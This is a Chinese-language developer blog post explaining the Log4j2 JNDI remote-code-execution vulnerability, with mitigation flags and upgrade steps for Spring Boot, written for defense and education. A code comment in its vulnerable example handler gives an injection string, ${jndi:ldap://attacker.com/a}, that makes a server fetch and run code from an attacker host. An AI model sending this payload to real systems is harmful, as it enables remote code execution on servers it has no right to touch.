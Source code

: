 长话短说吧。

相信大家已经被 Log4j2 的重大漏洞刷屏了，估计有不少小伙伴此时此刻已经累趴下了。很不幸，我的小老弟小二的 Spring Boot 项目中恰好用的就是 Log4j2，版本特喵的还是 2.14.1，在这次漏洞波及的版本范围之内。

第一时间从网上得知这个漏洞的消息后，小二吓尿了。赶紧跑过来问老王怎么解决。

老王先是给小二提供了一些临时性的建议，比如说：

```
JVM 参数添加 -Dlog4j2.formatMsgNoLookups=true
log4j2.formatMsgNoLookups=True
FORMAT_MESSAGES_PATTERN_DISABLE_LOOKUPS 设置为true
```

并且老王也在时刻的关注着 Log4j2 的官网和 Spring Boot GitHub 仓库的最新消息。

Java 后端开发的小伙伴应该都知道，Log4j、SLF4J、Logback 这 3 个日志组件是一个爹——Ceki Gulcu，但 Log4j 2 却是例外，它是 Apache 基金会的产品。

所以这波超级高危漏洞的锅必须得由 Apache 来背。并且波及范围非常广，已知受影响的应用程序和组件有：

- Spring-boot-strater-log4j2
- Apache Solr
- Apache Flink
- Apache Druid

并且只要是在 Log4j 2.x <= 2.14.1 之间的版本，都将受到影响——注定被载入史册的一波 bug 啊。

目前，Log4j2 的官网已经发布了 Log4j2 2.15.0 正式版，来解决此次漏洞。

![](http://cdn.tobebetterjavaer.com/tobebetterjavaer/images/shigu/log4j2-01.png)

那随着 Log4j2 2.15.0 正式版的发布，Spring Boot 的 GitHub 仓库提的这些关于 Log4j2 的 issue 都已经处于关闭状态了。

![](http://cdn.tobebetterjavaer.com/tobebetterjavaer/images/shigu/log4j2-02.png)

看到这些消息后，老王紧张的情绪一下子就缓解了下来，就像吃了一颗定心丸，赶紧去通知小二不用再提心吊胆了，直接一行代码搞定。

```
<properties>
    <log4j2.version>2.15.0</log4j2.version>
</properties>
```

详情可参照 Spring Boot 官方这篇博客：

> https://spring.io/blog/2021/12/10/log4j2-vulnerability-and-spring-boot

Gradle 构建的项目也有解决方案。

![](http://cdn.tobebetterjavaer.com/tobebetterjavaer/images/shigu/log4j2-03.png)

问题是解决了，不过老王没闲着。他从 Log4j2 官网公布的最新消息中琢磨出，本次远程代码执行漏洞正是由于组件存在 Java JNDI 注入漏洞：**当程序将用户输入的数据记录到日志时，攻击者通过构造特殊请求，来触发 Apache Log4j2 中的远程代码执行漏洞，从而利用此漏洞在目标服务器上执行任意代码**。

那肯定会有小伙伴在好奇 JNDI 是什么东东？来看一下维基百科的解释。

> Java 命名和目录接口（Java Naming and Directory Interface，缩写 JNDI），是 Java 的一个目录服务应用程序接口（API），它提供一个目录系统，并将服务名称与对象关联起来，从而使得开发人员在开发过程中可以使用名称来访问对象。

利用下面这段代码，攻击者可以通过 JNDI 来执行 LDAP 协议来注入一些非法的可执行代码。

```java
public class VulnerableLog4jExampleHandler implements HttpHandler {
    static Logger log = Logger.getLogger(log4jExample.class.getName());
    /**
     * A simple HTTP endpoint that reads the request's User Agent and logs it back.
     *
     * This is basically pseudo-code to explain the vulnerability, and not a full example.
     *
     * @param he HTTP Request Object
     */
    public void handle(HttpExchange he) throws IOException {
        String userAgent = he.getRequestHeader("user-agent");
// This line triggers the RCE by logging the attacker-controlled HTTP User Agent header.
// The attacker can set their User-Agent header to: ${jndi:ldap://attacker.com/a}
        log.info("Request User Agent:" + userAgent);
        String response = "<h1>Hello There, " + userAgent + "!</h1>";
        he.sendResponseHeaders(200, response.length());
        OutputStream os = he.getResponseBody();
        os.write(response.getBytes());
        os.close();
    }
}
```

具体的攻击手段可以参考这里：

> https://github.com/apache/pulsar/issues/13232

下图是程序猿阿朗画的简单的攻击链路步骤图。

![](http://cdn.tobebetterjavaer.com/tobebetterjavaer/images/shigu/log4j2-04.png)

感兴趣的小伙伴可以在本地复现一下，但**千万不要不当利用**哦！

![](http://cdn.tobebetterjavaer.com/tobebetterjavaer/images/shigu/log4j2-05.png)

再次提醒大家一下，排查自己的项目是否引入了 Apache log4j-core Jar 包。

![](http://cdn.tobebetterjavaer.com/tobebetterjavaer/images/shigu/log4j2-06.png)

如果存在依赖引入，且在受影响版本范围内，请升级到 Apache Log4j2 2.15.0 版本，目前已经 release。
